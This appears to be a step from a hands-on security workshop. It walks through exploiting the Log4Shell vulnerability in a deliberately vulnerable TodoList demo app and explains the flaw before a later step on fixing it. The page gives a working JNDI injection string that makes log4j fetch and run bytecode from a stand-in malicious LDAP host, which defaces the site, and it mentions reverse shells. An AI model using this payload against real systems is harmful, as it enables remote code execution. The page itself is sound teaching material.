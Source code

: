 +++
title = "Step 7: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## Exploiting an RCE vulnerability in the TodoList application. 

The `Goof` repo TodoList application includes various exploits to demonstrate the risks of open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly profific open source package with a critical CVE that was relatively easy to exmploit and gives malicous actors a remote code execution vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo $TODOLIST_LB/todolist
```
```sh
a4b2da77928d242b38e4229083fc2669-2133201151.us-east-1.elb.amazonaws.com/todolist
```

When you open that URL in your browser, you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User: foo@bar.com
* Password: foobar

![todolist-login](/images/todolist-login.png)

### Trigger the exploit
In the search field enter the following string `${jndi:ldap://ldap.darkweb:80/#Vandalize}` and submit the search.
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately, you can see that the header for the entire site has been modified to show a the hacker equivelent of graphiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.
